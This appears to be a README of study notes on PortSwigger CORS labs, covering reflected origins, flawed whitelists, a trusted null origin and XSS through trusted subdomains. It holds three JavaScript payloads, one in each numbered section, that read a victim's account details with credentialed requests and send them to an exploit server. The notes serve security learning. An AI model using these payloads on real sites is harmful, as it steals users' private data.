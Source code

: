 # [Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)

## Lab

- apprentice:
  - [1. CORS vulnerability with basic origin reflection](./lab/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection.md)
  - [2. CORS vulnerability with trusted null origin](./lab/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin.md)
- practitioner:
  - [3. CORS vulnerability with trusted insecure protocols](./lab/3.%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols.md)

## Keyword

- CORS: Cross-origin resource sharing
- SOP: same origin policy
- ACAO: Access-Control-Allow-Origin

## Summary

some vulnerabilities of CORS:

1. Server-generated ACAO header from client-specified Origin header:

    - [lab](./lab/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection.md)
    - payload:

      ```js
      <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://id.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
      };
      </script>
      ```

2. Errors parsing Origin headers:

    - whitelist:
      - allow access from all their subdomains (including future subdomains not yet in existence)
      - allow access from various other organizations' domains including their subdomains
    - whitelist problems:
      - often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.
      - example: `normal-website.com`
        - `hackersnormal-website.com` => ok
        - `normal-website.com.evil-user.net` => ok

3. Whitelisted null origin value:
    - [lab](./lab/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin.md)
    - Browsers might send the value null in the Origin header in various unusual situations:

      - Cross-origin redirects.
      - Requests from serialized data.
      - Request using the file: protocol.
      - Sandboxed cross-origin requests.
    - sandboxed payload:

      ```js
      <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','vulnerable-website.com/sensitive-victim-data',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
      location='malicious-website.com/log?key='+this.responseText;
      };
      </script>"></iframe>
      ```

4. Exploiting XSS via CORS trust relationships:
    - [lab](./lab/3.%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols.md)
    - exploit xss via CORS trust to retrieve sensitive information from the site that trusts the vulnerable application.
    - payload:

      ```js
      <script>
      document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
      </script>
      ```

5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials
